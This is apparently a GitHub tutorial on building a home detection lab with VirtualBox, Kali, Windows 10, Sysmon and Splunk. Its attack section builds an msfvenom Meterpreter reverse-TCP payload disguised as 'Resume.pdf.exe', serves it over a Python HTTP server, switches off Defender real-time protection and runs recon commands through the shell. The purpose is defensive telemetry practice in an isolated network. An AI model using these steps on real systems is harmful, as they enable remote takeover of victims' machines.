# Basic Home Lab

## 1. Download and install VirtualBox

Go to the [Virtual box download page](https://www.virtualbox.org/wiki/Downloads) and click on **Windows hosts**.


While it’s downloading, go ahead and check the `SHA256 checksums` to verify that the downloaded file has not been altered. To do this, go to your `Downloads` folder (or wherever you saved the installer), open a PowerShell console, and type:

```powershell
    Get-FileHash .\VirtualBox-7.1.10-169112-Win.exe  
```

This will return a SHA256 hash. Copy the hash, go back to the `SHA256 checksums` page on the VirtualBox website, and check if the hash matches one of the listed values (use Ctrl + F and paste the hash to search).

If the hash matches, you can be confident that the file was not altered during download. Now you can proceed with the installation of VirtualBox—just follow the instructions in the setup wizard and you should be good to go.

## 2. Install Windows 10

Go to [this link](https://www.microsoft.com/en-ca/software-download/windows10), scroll down to the **Create Windows 10 installation media** section and click **Download now**. This will download the Media Creation Tool, which will help us create the Windows 10 image file.

Once you run the tool, on the **What do you want to do?** screen, select **Create installation media**, then choose **ISO file**.


After downloading the Windows 10 ISO file, open VirtualBox and create your first virtual machine.

Click on **New**, and the **Create Virtual Machine** wizard. wizard will appear. Name the machine `windows10`, select the ISO image, and check the box **Skip unattended installation** — this allows us to install the operating system manually. 

Click **Next** to view the virtual machine specifications.


Note that these settings will depend on your computer's specifications. In this example, I’ll assign **2048 MB** of base memory and **1 CPU** under the processor settings.


For the virtual hard disk, I’ll leave it at **50 GB** and click **Next**.


Next, the wizard will show you a summary of your virtual machine settings. If everything looks good, click **Finish**.

To power on your Windows 10 machine, simply click **Start**. You should now see the Windows 10 setup screen.


Click on **Install**, and when you reach the **Activate Windows** screen, click **I don't have a product key**. Then, from the list of options, select **Windows 10 Pro** and click **Next**. Accept the license terms.

On the next screen, choose **Custom: Install Windows only (advanced)**, select the drive, and click **Next**. Windows 10 should now begin installing in the background.

## 3. Install Kali Linux

First, navigate to the [Kali website](https://www.kali.org), click on **Download**, and then select the **Pre-built VMs** menu item. I’ll be downloading the 64-bit version of Kali, but you should choose the option that matches your system architecture.


A `.7z` file will be downloaded, so you’ll need **7-Zip** to extract its contents. Once decompressed, look for the file with the `.vbox` extension and double-click it. Kali Linux should be automatically imported into VirtualBox.

Now you can start the Kali virtual machine.  
**Note:** The default credentials for the Kali Linux machine are `kali/kali`.


### Important:

In order to prevent your host machine to get infected, first you need to properly configure the virtual machines.

## 4. Configure the network:

When selecting any of the virtual machines, you have the option to click on **Settings**. Once there, go to the **Network** section. Here, you’ll find different network options:



### NAT (Default):

This option creates a separate network using the host’s network adapter and assigns one to each virtual machine.  
For example, if you have three virtual machines, each will be connected to its own separate network.

### NAT Network:

Similar to NAT, but instead of having three separate networks, the virtual machines will all mesh into one network. 

### Bridged adapter:

This will make the virtual machines act as physical machines, meaning they will be on the same network as the host machine (Do not execute malware analysis using this mode, because this machines will have access to the internet and the LAN).

### Host-Only adapter:

These virtual machines are only accessible to the host machine, they will not have access to the internet nor will have access to the LAN.

### Internal network:

This is an ideal option to use when performing malware analysis, as this option puts the virtual machine into their own network. You will have to statically assing each and every one of the virtual machines and IPs. They will not have access to the internet and they cannot access the LAN.

### Not attached:

The network addapter is not attached.

<hr />

Depending on the type of practices you plan to carry out in your virtual machines, the network configurations will vary:

- For basic tool testing, you can leave the network settings at their default (NAT).
- For more advanced scenarios (like malware analysis), you’ll need a more secure setup to protect your host machine. In this case, change the network configuration to **Internal Network** and give that network a name.

To do this, click on the **Settings** of the virtual machine, go to the **Network** section, and in the **Attached to:** dropdown, select **Internal Network**. Then, assign a name to your internal network.



After changing this configuration on both the Windows 10 and Kali Linux machines, they should now be on the same network. However, we still need to manually assign static IP addresses to each of them.

Let’s start with the Windows 10 machine. Boot it up, right-click the globe icon in the taskbar, and select **Open Network & Internet settings**.



In the next window, scroll down until you find **Change adapter options**, and click on it.



Next, right-click the **Ethernet** icon, select **Properties**, and look for the checkbox labeled **Internet Protocol Version 4 (TCP/IPv4)**.



Select it and click the **Properties** button.  
By default, it will be set to **Obtain an IP address automatically (DHCP)**. However, we will select **Use the following IP address**.

For the IP address, I’ll use `192.168.20.10`, leave the **Subnet mask** as `255.255.255.0`, leave the **Default gateway** as is, and leave the **DNS server** fields blank.

If we open a Command Prompt and run `ipconfig`, we should see the newly assigned IP address.



Now it's time to configure the Kali machine. Locate the **Ethernet** icon at the top-right corner, right-click on it, and select **Edit Connections**.



Select **Wired connection 1**, click the gear icon at the bottom, and in the next window, go to the **IPv4 Settings** tab.  
Change the **Method** from **Automatic (DHCP)** to **Manual**. Then, under **Addresses**, click **Add** and enter the following:

- **Address:** `192.168.20.11`
- **Netmask:** `24`
- **Gateway:** (leave blank)
- **DNS Servers:** (leave blank)
- **Search Domains:** (leave blank)



To check the new IP address, right-click anywhere on the desktop and open a terminal.



To check the connectivity between the two machines, we’ll ping the Kali machine from Windows by running `ping 192.168.20.11` in the Windows Command Prompt.



Now that both machines have network connectivity, take a snapshot of each one before you start experimenting.

## 5. Install Sysmon in Windows 10:

**Sysmon** (System Monitor) is a Microsoft tool, part of the Sysinternals Suite, that logs detailed system activity to the Windows Event Log.

To install it, first run the Windows 10 virtual machine, open a web browser, and go to the [Sysmon download page](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).  
Click on **Download Sysmon** to begin the download.



Next, navigate to [this page](https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml) and download the `sysmonconfig.xml` file.

Once everything is downloaded, extract the Sysmon compressed file, and move the `sysmonconfig.xml` file into the extracted folder.  
Inside that folder, open a PowerShell console with administrator privileges.



Now, in the Powershell console, type `.\Sysmon64.exe -i .\sysmonconfig.xml` and press **Enter** to install Sysmon.

To check if Sysmon is installed, open the **Event Viewer** and navigate to:  
**Applications and Services Logs > Microsoft > Windows** and you should see a **Sysmon** folder with an **Operational** log inside. Click on it, and you'll see detailed telemetry about the system that can assist with monitoring and analysis.



## 6. Install Splunk in Windows 10:

To install Splunk, go to the [Splunk website](https://www.splunk.com/) and download **Splunk Enterprise**.  
You’ll need to create an account to access the download.

Run the installer, and when prompted to choose the type of installation, select **Local System**.  
Create a username and password, then click **Install**.

Once installed, open your browser and navigate to `http://localhost:8000`.  
Splunk should now be running on your local machine.

## 7. Install Splunk Universal Forwarder:

In the victim machine, go to the [official website](https://www.splunk.com/en_us/download/universal-forwarder.html) of Splunk Universal Forwarder and download the version that matches your OS.

Run the installer and during the setup:

- Choose **"Forward data to another Splunk instance"**
- Enter your **Splunk Server IP and receiving port** (default is 9997)
- Choose **Local System Account** or preferably a custom admin account
- After install, confirm the service `SplunkForwarder` is running

After the installation, open the file `C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf` and at the end, add this:

```ini
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = false
renderXml = true
index = endpoint
```

Or change `index = endpoint` to `index = main` for testing.
After that, restart the forwarder.

## 8. Establish a reverse TCP shell in the attacker machine:

As a first step, open a terminal in the Kali machine and run `ifconfig` or `ip a` to find your IP address—make a note of it, as you’ll need it when building the malware.

Next, run `nmap -A 192.168.20.10 -Pn`, (replace `192.168.20.10` with the IP address of the Windows machine if it's different in your case). This command tells Nmap to scan all ports on the target and attempt to identify any that are open, along with details about the services running on them.

```sh
# Note: 

nmap -A 192.168.20.10 -Pn

# -A: Aggressive scan mode. This enables OS detection, version detection, etc.
# -Pn: Tells Nmap not to ping the host first to see if it's online. 
```

After Nmap finishes the scan, we can see that port **3389** is open:



Now it's time to create a basic piece of malware using **Msfvenom** with a **Meterpreter reverse shell** as the payload.  
(To see a list of available payloads, run `msfvenom -l payloads`.)

In this example, I’ll use the following payload:  
`windows/x64/meterpreter_reverse_tcp`

Run this command:

```sh
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe
```

This command generates a piece of malware using Meterpreter’s reverse TCP payload, which is configured to connect back to our attacker machine.  
The connection is defined by the `LHOST` (in my case, `192.168.20.11`) and the `LPORT` (the default for Meterpreter is `4444`, but you can customize it).

The output will be a `.exe` file, as specified, and the file will be named `Resume.pdf.exe`.



To check the file details just run `file Resume.pdf.exe`.

Now let's open a handler to listen in on the port that we configured in the malware, to do that open up Metasploit by typing `msfconsole`. Once in the console, we'll use the multi-handler by running `use exploit/multi/handler`, after that we should be in the exploit itself.
Type `options` to see possible configurations:



Notice that the payload options are now set to `generic/shell_reverse_tcp`. Wee need to change this payload to be the same payload that we used configuring our Msfvenom malware., to do that run `set payload windows/x64/meterpreter_reverse_tcp`. Now we need to configure the lhost of the attacker machine, for that run `set lhost 192.168.20.11`.
To check this changes, just run `options` again.

Now, to start the handler type `exploit`:



The attacker machine is now listening and waiting for the victim machine to execute the malware.

Next, we need to set up a simple HTTP server on the Kali machine so the victim can download the malware.  
We’ll use Python for this.

Open a new terminal in the same directory where the malware file is located, and run `python3 -m http.server 9999` (Or use another port of your preference that is not in use). 



This allows the victim machine to access the attacker machine and download the malware from it.

## 9. Execute the malware in the victim machine:

First, open the Windows 10 machine and go to the **Security Center**.  
Under **Virus & threat protection**, click on **Manage settings**.  
Once there, turn off **Real-time protection**.



Now, open a web browser on the Windows machine and enter the IP address of the Kali machine followed by the port you set up.  
You should see the file listed and ready for download.



Once the file is downloaded, open it. When Windows displays a security warning, click on **Run anyway**.

The malware is now executed. To confirm this, open a **Command Prompt** with administrator privileges and run `netstat -anob`. 

Scroll through the list and look for an **ESTABLISHED** connection to the attacker machine.
In my case, it looks like this:



If you open **Task Manager** and navigate to the **Details** tab, you can confirm that the `Resume.pdf.exe` malware is running by identifying its **PID** (Process ID).



Now, switch back to the terminal on the attacker machine and run a few commands to generate telemetry.

Start by entering:

```sh
shell
```

Then run the following commands:

```sh
net user
net localgroup
ipconfig
```

## 10. Check telemetry with Splunk:

Back on the Windows machine, we first need to make sure that Splunk is configured to ingest Sysmon logs.

To do this, navigate to the Splunk installation directory (typically inside **Program Files**) and follow this path:  
`etc > system > local`

You should see an `inputs.conf` file.  
If it's not there, copy it from `etc > system > default`


Edit the `inputs.conf` file and ensure that Sysmon is configured as shown in the image below:



Now, make sure to restart the **Splunkd** service.

